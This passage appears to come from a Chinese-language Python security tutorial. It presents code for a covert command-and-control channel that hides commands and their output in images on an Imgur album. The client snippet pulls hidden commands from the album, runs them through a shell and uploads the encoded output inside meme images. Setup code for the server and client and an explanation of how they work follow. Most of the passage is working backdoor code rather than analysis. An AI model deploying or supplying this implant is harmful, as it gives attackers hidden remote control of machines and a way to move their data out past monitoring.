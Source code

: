 ```py

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}", "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

## 工作原理…

首先，我们创建一个`imgur`客户端对象；authenticate 函数处理将`imgur`客户端与我们的账户和应用程序进行身份验证。当您运行脚本时，它将输出一个 URL，让您访问以获取 PIN 码输入。然后，它会获取我们的 imgur 用户名的相册列表。如果您还没有创建相册，脚本将失败，所以请确保您已经准备好相册。我们将获取列表中的第一个相册，并获取该相册中包含的所有图像的进一步列表。

图像列表按照最早上传的图像排列；为了使我们的脚本工作，我们需要知道最新上传图像的时间戳，所以我们使用`[-1]`索引来获取它并将其存储在一个变量中。完成这些步骤后，服务器将等待客户端连接：

```py
client = authenticate()
a = client.get_account_albums("<YOUR IMGUR ACCOUNT NAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```

一旦服务器等待客户端连接，我们就可以运行客户端脚本。客户端脚本的初始启动创建了一个`imgur`客户端对象，就像服务器一样，但不是等待；相反，它生成一条消息并将其隐藏在一个随机图像中。这条消息包含客户端正在运行的`os`类型（这将使服务器用户更容易知道要运行什么命令），一个`ready`状态，以及客户端的标识符（如果您想扩展脚本以允许多个客户端连接到服务器）。

一旦图像上传完成，`last_message_datetime`函数就会设置为新的时间戳：

```py
client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']
```
